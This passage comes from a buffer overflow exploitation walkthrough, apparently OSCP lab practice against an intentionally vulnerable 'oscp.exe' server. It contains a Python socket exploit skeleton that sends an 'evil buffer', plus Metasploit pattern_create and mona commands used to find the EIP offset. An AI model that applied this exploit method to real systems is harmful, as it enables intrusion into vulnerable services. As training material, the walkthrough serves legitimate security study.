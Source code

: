 ```py

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

* Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

* Copy the output and place it into the payload variable of the exploit.py script.

* On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

* On Kali, run the modified exploit.py script: `python3 exploit.py`

* The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

```bat
!mona findmsp -distance 600
```

* Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

* In this output you should see a line which states:

```bat
EIP contains normal pattern : ... (offset XXXX)
```
* in my case

```bat
EIP contains normal pattern : 0x6f43396e (offset 1978)
```


* Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

* Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

### __Finding Bad Characters__
